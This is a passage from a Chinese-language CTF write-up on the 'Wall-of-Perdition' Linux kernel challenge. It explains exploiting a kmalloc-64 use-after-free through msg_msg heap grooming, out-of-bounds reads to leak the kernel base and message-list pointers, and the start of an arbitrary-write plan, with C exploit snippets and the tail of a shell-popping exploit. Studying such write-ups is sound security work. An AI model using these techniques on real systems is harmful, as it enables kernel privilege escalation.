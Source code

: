```c
  send_msg(qid, target, 0x1010 - 0x30, 0);
  pop_shell();

  return 0;
}
```

# Wall-of-Perdition

UAF依然存在，但在kmalloc-64中。我们依然可以通过修改m_ts进行越界读。在我们得到内核的基址后，似乎并不能进行任意地址写了。

实现任意地址写需要控制next指针，如果想要控制msg_msg结构的next，消息大小就大于64，不会申请到kmalloc-64。如果想控制kmalloc-64的segment的next，`m_ts`不能修改，不能进行越界。另一种思路是直接修改next，但是此时会遇到与第一种相同的情况，segment大小大于64无法UAF。

实现任意写最重要的是使一个msg_msg结构出现在可控的空间。

## 泄露内核基址 & msg 链表

构造一个UAF的kmalloc-64，然后申请两个消息队列：

```c
  qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid[0] < 0) {
    die("[!] Failed to msgget");
  }
  qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid[1] < 0) {
    die("[!] Failed to msgget");
  }
  printf("[+] qid[0] = %d, qid[1] = %d\n", qid[0], qid[1]);
```

在QID#0上发送一个0x10的消息（实际0x10+0x30），QID#1上发送一个0x10的消息，再发送一个0xfd0+0xff8大小的消息。

```c
  bzero(msg_buf, 0x2000);
  message->mtype = 1;
  memset(message->mtext, 0x41, 0x10);
  send_msg(qid[0], message, 0x40 - 0x30, 0);
  memset(message->mtext, 0x42, 0x10);
  send_msg(qid[1], message, 0x40 - 0x30, 0);
  send_msg(qid[1], message, 0x1ff8 - 0x30, 0);
```

此时，QID#0上的消息就是UAF控制的kmalloc-64块。

此时的堆布局如下

![https://syst3mfailure.io/assets/images/wall_of_perdition/1.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-9d961fa4c7bafd23e4a5d9065eeb43cf-b260c2.png)

一个msg_msg消息的最大为0x2000，我们修改QID#0消息的大小，读取数据。因为QID#0和QID#1的0x10消息属于同一个大小，两者的距离可能很近。我们就能读取QID#2的0x10消息的`list_head`，还能得到全局变量 `dynamic_kobj_ktype` 泄露内核基址。题目作者泄露的是`sysfs_bin_kfops_ro`。 如下图：

![https://syst3mfailure.io/assets/images/wall_of_perdition/2.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-562b8e6c4fdca71d7dcec9d6913deabf-f7b5d6.png)
